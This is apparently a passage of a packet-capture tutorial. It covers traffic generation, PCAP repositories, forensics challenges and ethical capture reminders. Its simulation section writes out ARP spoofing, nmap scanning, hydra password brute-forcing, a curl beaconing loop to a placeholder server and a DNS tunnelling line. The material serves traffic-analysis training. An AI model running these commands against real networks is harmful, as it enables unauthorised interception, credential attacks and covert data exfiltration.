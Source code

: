 ### Attack Simulation:
```bash
# ARP spoofing simulation
sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.100; arp.spoof on"

# Port scanning simulation
nmap -sS 192.168.1.0/24
nmap -sU 192.168.1.100

# Brute force simulation
hydra -l admin -P wordlist.txt 192.168.1.100 http-post-form
```

### Malware Simulation:
```bash
# Simulate beaconing (replace with your server)
while true; do curl -s http://your-server.com/beacon; sleep 60; done

# DNS tunneling simulation
dig @8.8.8.8 A $(echo "data" | base64).example.com
```

---

## 🌐 Online Capture Resources

### Free PCAP Repositories:
- [Wireshark Sample Captures](https://wiki.wireshark.org/SampleCaptures) - Official sample captures
- [Malware Traffic Analysis](https://www.malware-traffic-analysis.net/) - Real malware traffic
- [NetResec](https://www.netresec.com/?page=PCAP) - Various capture files
- [Packet Total](https://packettotal.com/) - PCAP analysis and sharing
- [CTFTime](https://ctftime.org/) - Capture files from CTF competitions

### Capture Challenges:
- [SANS Forensics Challenges](https://digital-forensics.sans.org/community/challenges)
- [Honeynet Project Challenges](https://honeynet.org/challenges)
- [DFIR Diva](https://dfirdiva.com/dfir-challenges/)
- [Cyberseclabs](https://www.cyberseclabs.co.uk/)

### Capture Tools:
- [PCAPR](https://pcapr.net/) - Community packet capture sharing
- [CloudShark](https://www.cloudshark.org/) - Online PCAP analysis
- [PacketBeat](https://www.elastic.co/beats/packetbeat) - Real-time network monitoring

---

## 🛠️ Capture Best Practices

### Ethical Capturing:
```bash
# Always get proper authorization
# Document capture purpose and scope
# Respect privacy and data protection laws
# Use on networks you own or have permission to test
```
